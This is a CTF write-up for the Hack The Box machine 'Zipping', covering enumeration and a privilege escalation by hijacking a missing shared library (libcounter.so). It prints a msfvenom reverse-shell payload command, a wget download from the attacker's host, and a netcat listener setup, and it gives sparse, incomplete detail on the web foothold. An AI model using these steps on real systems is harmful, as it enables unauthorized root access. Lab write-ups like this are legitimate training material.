


This machine the difficulty is medium by hackthebox.The creator for this box machine is [xdann1](https://app.hackthebox.com/users/535069) . So now i would give your walkthrough for this machine.I hope you enjoy : )

# Enumeration
First of all check the open port using nmap 
`nmap -sC -sV -p- -T4 --min-rate=9326 --vv zipping.htb`
 

 #### only port 80 and 22 only open so nothing important here
 
 


 
 Lets check the website . Now look at this i tried upload shell from here using null byte but it is nothing because the creator was patched for null bytes . So I'm tried another way until i found this website the path is /shop . 
 
 


 
 
 You can see here there shows the product and i think its vuln Sqli and php filter to rce because there have 2 param it is `page=product` and one more is `&id=3` so first i tried php filter to read the source code its dont work . So i tried SQLi 

# Privilege Escalation

sudo -l 

```
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

`sudo /usr/bin/stock`
Enter Password:

so we need read the code using strings command

`strings /usr/bin/stock`


Here the password `St0ckM4nager`

now try login back and success but nothing here to exploit it so we need using strace command for debugging the code 

`strace /usr/bin/stock`

after that paste the password and enter then you will see at here "No such file"



```
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

the file was missed now create malicious code revshell using name libcounter.so to priv esc and get revshell . Using metasploit to create revshell

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=1337 -f elf-so -o libcounter.so`

So now go this path `/home/rektsu/.config/` and upload your shell have been created by metasploit 


## Your Linux

`python3 -m http.server 80`

## SSH / Revhsell
`wget http://10.10.14.49/libcounter.so`

now run your netcat on your linux terminal and run `sudo /usr/bin/stock`

And will get access root from the system because you added malicious file in libcounter.so file at .config because the binary `/usr/bin/stock` compile with this file libcounter.so and that's why this happened 

